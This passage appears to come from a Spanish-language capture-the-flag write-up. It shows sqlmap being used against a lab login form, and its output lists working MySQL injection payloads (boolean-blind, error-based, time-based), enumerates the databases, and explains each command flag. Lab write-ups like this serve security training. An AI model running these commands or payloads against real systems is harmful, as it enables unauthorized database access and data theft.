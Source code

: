 <h2 id="SQLMAP">Automatizando Inyecciones SQL con SQLMAP para Dumpear Datos de Bases de Datos y Ganando Acceso a Servicio FTP</h2>

Comprobemos que el formulario es vulnerable con **SQLMAP**:
```bash
sqlmap -u 'http://dev.budasec.thl/' --batch --forms
...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: username=admin' AND EXTRACTVALUE(7546,CASE WHEN (7546=7546) THEN 7546 ELSE 0x3A END)-- iJyx&password=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=admin' AND GTID_SUBSET(CONCAT(0x71706a6a71,(SELECT (ELT(3738=3738,1))),0x716a7a7a71),3738)-- ttTK&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3251 FROM (SELECT(SLEEP(5)))OSrU)-- aUNb&password=admin
---
do you want to exploit this SQL injection? [Y/n] Y
[16:03:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
....
```

| Parámetros | Descripción |
|--------------------------|
| *-u*	     | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |

<br>

Muy bien, si es vulnerable.

Ahora obtengamos las bases de datos existentes:
```bash
sqlmap -u 'http://dev.budasec.thl/' --batch --forms --dbs
...
available databases [5]:
[*] buda
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
...
```
